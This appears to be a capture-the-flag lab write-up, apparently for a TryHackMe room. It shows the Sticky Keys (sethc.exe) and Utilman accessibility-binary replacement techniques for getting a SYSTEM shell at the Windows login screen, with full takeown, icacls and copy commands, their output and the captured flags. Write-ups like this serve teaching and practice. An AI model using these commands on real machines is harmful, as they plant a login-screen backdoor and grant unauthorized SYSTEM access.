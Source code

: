 ### Sticky Keys
Really simple bypass to `SYSTEM` if you have an admin account already. Replaces sticky keys and can be used at login screen.

```powershell
C:\> takeown /f c:\Windows\System32\sethc.exe

SUCCESS: The file (or folder): "c:\Windows\System32\sethc.exe" now owned by user "PURECHAOS\Administrator".

C:\> icacls C:\Windows\System32\sethc.exe /grant Administrator:F
processed file: C:\Windows\System32\sethc.exe
Successfully processed 1 files; Failed processing 0 files

C:\> copy c:\Windows\System32\cmd.exe C:\Windows\System32\sethc.exe
Overwrite C:\Windows\System32\sethc.exe? (Yes/No/All): yes
        1 file(s) copied.

C:\Windows\system32> whoami
	nt authority\system
C:\Windows\system32>c:\flags\flag14
	THM{BREAKING_THROUGH_LOGIN}
```


### Utilman Bypass
Accesibility bypass. Same steps as sticky keys different binary to replace

```powershell
C:\> takeown /f c:\Windows\System32\utilman.exe

SUCCESS: The file (or folder): "c:\Windows\System32\utilman.exe" now owned by user "PURECHAOS\Administrator".

C:\> icacls C:\Windows\System32\utilman.exe /grant Administrator:F
processed file: C:\Windows\System32\utilman.exe
Successfully processed 1 files; Failed processing 0 files

C:\> copy c:\Windows\System32\cmd.exe C:\Windows\System32\utilman.exe
Overwrite C:\Windows\System32\utilman.exe? (Yes/No/All): yes
        1 file(s) copied.

C:\Windows\system32> whoami
	nt authority\system
C:\Windows\system32>c:\flags\flag15
	THM{THE_LOGIN_SCREEN_IS_MERELY_A_SUGGESTION}
```